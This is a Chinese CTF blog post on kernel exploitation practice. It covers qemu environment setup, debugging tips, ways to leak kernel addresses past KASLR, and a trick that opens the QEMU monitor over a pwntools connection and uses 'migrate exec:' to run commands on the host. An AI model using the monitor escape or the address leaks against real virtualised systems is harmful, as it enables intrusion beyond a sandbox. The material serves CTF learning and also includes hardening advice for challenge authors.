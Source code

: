 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 2: ptracticing"
author: wsxk
date: 2025-9-16
comments: true
---
```


- [1. kernel 环境搭建](#1-kernel-环境搭建)
  - [1.1 自安装](#11-自安装)
  - [1.2 一键式脚本](#12-一键式脚本)
  - [1.3 kernel debug](#13-kernel-debug)
- [获取kernel地址的方法:](#获取kernel地址的方法)
- [特典: kernel pwn tricks:](#特典-kernel-pwn-tricks)
  - [特典一：qemu monitor模式](#特典一qemu-monitor模式)


# 1. kernel 环境搭建<br>
kernel环境搭建需要4个部分:<br>
```
1. 编译器compiler： gcc，用于编译内核模块和内核
2. 内核 kernel： 无需多言，内核elf文件
3. 文件系统 filesystem： 用于存储，有了它，内核才可以存放各种文件。
4. 模拟器 emulator： 多数情况下指的是qemu，用于模拟执行内核
```
## 1.1 自安装<br>
可参考我22年左右写的blog，[https://wsxk.github.io/ubuntu_kernel%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/](https://wsxk.github.io/ubuntu_kernel%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)<br>
自己安装是非常复杂的操作.<br>

## 1.2 一键式脚本<br>
pwn.college提供了一键式脚本:<br>
[https://github.com/pwncollege/pwnkernel/tree/main](https://github.com/pwncollege/pwnkernel/tree/main)<br>
直接运行即可，方便快捷~<br>
考虑到仓库的更新时间，使用ubuntu22虚拟机会是个比较好的选择。<br>

## 1.3 kernel debug<br>
内核问题通常涉及到需要编写c代码并编译成静态可执行程序，然后打包进内核的文件系统中，才能执行。这样有一个问题，**每次重新编写exp时，就要关闭内核，将exp打包进文件系统，再启动内核**,太麻烦了，有一种解决办法<br>
```
/usr/bin/qemu-system-x86_64 \
	-kernel linux-5.4/arch/x86/boot/bzImage \
	-initrd $PWD/initramfs.cpio.gz \
	-fsdev local,security_model=passthrough,id=fsdev0,path=$HOME \     #关键1
	-device virtio-9p-pci,id=fs0,fsdev=fsdev0,mount_tag=hostshare \    #关键2
	-nographic \
	-monitor none \
	-s \
	-append "console=ttyS0 nokaslr"
```
关键1和关键2两个参数相当于把宿主机的`$HOME`目录挂载到来宾机的`$HOME`目录下，这样我们在宿主机上编写程序后就可以快速开始调试，节省时间:<br>



kernel调试的理想条件：<br>
```
1. kernel携带debug symbols，即可以 b commit_creds直接下断点
2. kaslr关闭，即每次启动kernel的地址空间没有变化，方便调试
```

# 获取kernel地址的方法:<br>
对于开启了kaslr的题目，想办法获取kernel地址是非常重要的：<br>
```
1. cat /proc/kallsym
2. cat /proc/modules
3. cat /sys/module/xxxx/sections/.text 
4. 如果你能造成内核panic的话，打印报错信息时的r11寄存器就是内存地址
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250827195452.png)

# 特典: kernel pwn tricks:<br>
这些特典或许不能帮助我们理解kernel，但是可以帮助我们ctf题目中快速拿分！<br>
## 特典一：qemu monitor模式<br>
`QEMU monitor` 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。<br>
***对于出题人而言，应当时刻保证 QEMU 的参数包含一行 -monitor none 或是 -monitor /dev/null 以确保选手无法访问 QEMU monitor。***<br>
通常情况下，进入 QEMU monitor 的方法如下:<br>
```
1. 首先同时按下 CTRL + A
2. 接下来按 C
```
使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：<br>
```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```
在 QEMU monitor 当中有一条比较好用的指令叫做`migrate`，其支持我们执行特定的 URI：<br>
```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```
其中，**`URI 可以是 'exec:<command>' 或 tcp:<ip:port>`**，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 ls 命令：<br>
```
migrate "exec: sh -c ls"
```
有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：
```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

[https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/](https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/)<br>



<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>